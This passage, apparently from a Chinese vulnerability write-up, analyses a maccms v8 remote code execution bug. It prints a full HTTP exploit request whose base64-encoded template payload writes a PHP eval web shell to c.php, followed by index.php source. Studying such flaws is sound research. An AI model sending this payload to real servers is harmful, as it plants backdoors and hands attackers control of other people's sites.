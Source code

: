 ![](https://www.cnpanda.net/usr/uploads/2019/12/3383581821.png)

但官网采取的整改如下：

![](https://www.cnpanda.net/usr/uploads/2019/12/405841951.png)

其实 python 中也存在着 “limit”，但是官网解释如下：

![](https://www.cnpanda.net/usr/uploads/2019/12/739052981.png)

可能没有足够的内存来构造那么大的字符串 —— so ~

0x03 maccms v8 80w 字符 RCE
-------------------------

根据漏洞的 payload ：

```
POST /index.php?m=vod-search HTTP/1.1
Host: xxx.xxx.xxx.xx
Content-Length: 500137
Cache-Control: max-age=0
Origin: xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3
Referer: xxx.xxx.xxx.xx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm\_lvt\_ff7f6fcad4e6116760e7b632f9614dc2=1574418087,1574670614,1574673402,1575271439; Hm\_lvt\_137ae1af30761db81edff2e16f0bf0f8=1574418087,1574670615,1574673402,1575275889; pgv\_pvi=8322096128; PHPSESSID=pr37r8fkshd854f8fnfep4ov53; adminid=1; adminname=admin; adminlevels=b%2Cc%2Cd%2Ce%2Cf%2Cg%2Ch%2Ci%2Cj; admincheck=2afdbd385cb6c2af162e6733f1b0e2d2
Connection: close

wd=union(80w个a){if-A:print(fputs%28fopen%28base64\_decode%28Yy5waHA%29,w%29,base64\_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}

```

进入 `index.php`查看相关参数：

```
$acs = array('vod','art','map','user','gbook','comment','label');

if(in\_array($ac,$acs)){
        $tpl->P\['module'\] = $ac;
        include MAC\_ROOT.'/inc/module/'.$ac.'.php';
    }
    else{
        showErr('System','未找到指定系统模块');
    }
    unset($par);
    unset($acs);
    $tpl->ifex();

```
